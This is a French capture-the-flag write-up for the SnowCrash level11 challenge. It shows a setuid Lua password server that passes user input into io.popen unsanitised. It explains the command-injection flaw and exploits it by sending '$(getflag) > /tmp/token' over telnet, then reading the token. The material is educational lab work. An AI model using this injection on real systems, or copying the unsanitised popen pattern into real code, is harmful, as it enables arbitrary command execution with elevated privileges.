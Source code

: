 ```shell
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ file level11.lua
level11.lua: setuid setgid a lua script, ASCII text executable
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
Ce code est écrit en Lua et il implémente un serveur simple qui écoute sur le port 5151 de l'adresse IP 127.0.0.1. Le serveur demande à l'utilisateur d'entrer un mot de passe, le hache en utilisant la fonction "hash", et le compare à une chaîne de hachage spécifique.

La fonction "hash" utilise le programme sha1sum pour calculer le hash SHA-1 du mot de passe entré par l'utilisateur. La fonction retourne la chaîne de hachage SHA-1 de longueur 40 caractères.

Le serveur est mis en boucle infinie avec une instruction "while 1 do". Pour chaque connexion client, il attend que l'utilisateur entre un mot de passe. Si le mot de passe entré correspond à la chaîne de hachage spécifique, le serveur envoie un message "Gz you dumb*" (félicitations, tu es idiot) au client, sinon, il envoie un message "Erf nope..\n" (désolé, mot de passe incorrect).

La faille est dans io.popen:
La fonction io.popen() en Lua est utilisée pour ouvrir un processus en mode lecture ou écriture. Elle prend en entrée une chaîne de caractères qui spécifie la commande à exécuter et le mode d'ouverture.

en mettant une commande getflag qui fait une sortie dans un fichier temporaire ça marche:
```shell
telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: $(getflag) > /tmp/token
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

